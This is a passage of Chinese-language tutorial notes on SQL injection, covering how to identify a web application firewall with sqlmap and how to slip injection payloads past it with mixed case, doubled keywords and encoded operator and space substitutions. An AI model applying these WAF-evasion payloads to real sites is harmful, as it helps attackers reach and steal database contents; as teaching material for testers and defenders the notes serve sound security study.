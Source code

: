 ###### ②自动

* 使用sqlmap自带的**WAF识别模块**可以识别出**WAF的种类**

```
sqlmap -u [URL] --identify-waf --batch
```

* 识别出来的WAF类型为**XXX Web Application Firewall**,没有特征则为**Generic**
* 详细的规则在**sqlmap的waf目录下**，也可以自己编写规则

##### b. 绕过方法

###### ①大小写绕过

1. 只针对**小写或大写**的**关键字匹配技术**

2. **正则不完善**或是没有用**大小写转换函数**

3. 用法

   ```
   -1' UnIon SelEct 1,2,3
   ```

###### ②替换关键字

1. 关键字双写

   * 出现原因：**只验证一次**字符串或字符串**过滤不完整**

   * 用法

     ```
     -1' ununionion seselectlect 1,2,3	//可以构造更复杂的语句
     ```

2. 同价词替换

   * 出现原因：针对**特殊关键字**进行检测

   * 用法

     | 字符 | 替换                   |
     | ---- | ---------------------- |
     | and  | &&                     |
     | or   | \|\|                   |
     | =    | <>                     |
     | 空格 | %20  (url编码)         |
     | 空格 | %09  (tab键，水平)     |
     | 空格 | **%0a  (换行符)**      |
     | 空格 | %a0  (空格)            |
     | 空格 | **%0b  (tab键，垂直)** |
     | 空格 | %0c  (新的一页)        |
     | 空格 | %0d  (return功能)      |
     | 空格 | /**/                   |
